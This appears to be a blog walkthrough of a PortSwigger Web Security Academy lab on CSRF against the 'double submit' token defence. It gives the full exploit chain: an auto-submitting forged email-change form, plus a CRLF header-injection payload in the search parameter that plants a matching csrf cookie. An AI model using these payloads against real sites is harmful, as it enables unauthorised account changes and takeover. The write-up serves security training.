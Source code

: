 ```yaml
---
author: Nithissh S
pubDatetime: 2024-10-03T15:22:00Z
modDatetime: 2024-10-03T09:12:47.400Z
title: CSRF where token is duplicated in cookie
slug: csrf-portswigger-lab-4
featured: false
draft: false
tags:
  - BSCP
  - CSRF
description:
  This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique. To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. You can log in to your own account using the following credentials `wiener:peter`    
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter` 

## Solution 

Once after login using the credentials `wiener:peter` provided in the lab objective and now I've updated the email.. Intercepted the request and looking into the request.. we have CSRF token in two places.. One in the header under cookies and another one in the POST body as a parameter 

![](../../assets/images/bscp/csrf/csrf-13.png) 

I've updated one of the csrf token kinda just changed the last value on `csrf` inside the `Cookie:` and as a response says that `CSRF token is invalid`

![](../../assets/images/bscp/csrf/CSRF-14.png)

Found that when we both values of the CSRF token are same and then request passes through 

![](../../assets/images/bscp/csrf/csrf-15.png) 

Let's generate the CSRF POC and keep that aside.. because we have a way to manipulate the body params `csrf` value.. But we need to find a way to inject the values of csrf inside the Cookie

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aa900f504b8b225811be8b8001400c9.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="same" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

We have identified a crlf vulnerability in the home page search functionality and may able to inject the custom values for `csrf` inside `Cookie`

![](../../assets/images/bscp/csrf/csrf-16.png) 

Let's make the search request as an `<img src>` and replace it with `<script>` in the previously generated POC 

```html
<img src="https://0a1400b804fc91fb805c6c99001600a3.web-security-academy.net/?search=nithisshtest%0d%0aSet-Cookie:%20csrf=same%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```

Here is how the complete payload looks like 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a1400b804fc91fb805c6c99001600a3.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="same" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a1400b804fc91fb805c6c99001600a3.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=same%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

This Should solve the lab but the portswigger didn't mark it as solved.. but after a decade, It marked as solved 

![](../../assets/images/bscp/csrf/csrf-17.png) 